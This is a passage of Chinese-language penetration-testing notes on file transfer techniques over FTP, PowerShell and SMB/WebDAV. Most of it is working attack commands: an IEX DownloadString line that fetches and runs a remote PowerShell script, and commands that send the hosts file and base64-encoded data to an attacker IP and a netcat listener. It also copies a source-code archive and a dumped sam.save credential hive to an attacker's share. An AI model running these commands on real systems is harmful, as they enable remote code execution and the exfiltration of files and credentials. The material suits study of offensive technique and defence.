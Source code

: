### 4. FTP 下载

```shell
# 使用 Python3  pyftpdlib模块 创建 FTP 服务器
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21

# 使用 Powershell 下载
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
# 使用 FTP 客户端下载
```

### 5. Powershell 上传

```shell
# 第一种方法，设置上传服务器，然后在目标机执行上传命令
# 配置 uploadserver 
pip3 install uploadserver
python3 -m uploadserver

# 使用 Powershell 上传文件到服务器上
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

# 第二种方法： 使用网页上传，在本机监听
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64

 nc -lvnp 8000
```

### 6. SMB 上传

> 企业中通常不会让 SMB 协议离开其内部网络，这时候我们可以使用 WebDav , WebDav 是 HTTP 的扩展，HTTP 是 Web 浏览器和 Web 服务器用来相互通信的 Internet 协议。该`WebDAV`协议使网络服务器能够像文件服务器一样运行，支持协作内容创作。`WebDAV`也可以使用 HTTPS。
>
> 当您使用`SMB`时，它将首先尝试使用 SMB 协议进行连接，如果没有可用的 SMB 共享，它将尝试使用 HTTP 进行连接。

```shell
# 配置 WebDAV 服务器，需要安装 wsgidav、cheroot
sudo pip install wsgidav cheroo
# 使用 WebDav Python 模块
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous

# 连接到 WebDAV 共享
dir \\192.168.49.128\DavWWWRoot
# 上传文件
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\

# 攻击主机上 使用 Impacket 中的smbserver.py 创建 SMB 服务器
sudo impacket-smbserver share -smb2support /tmp

# 移动文件
move sam.save \\<攻击主机 IP>\tmp
```

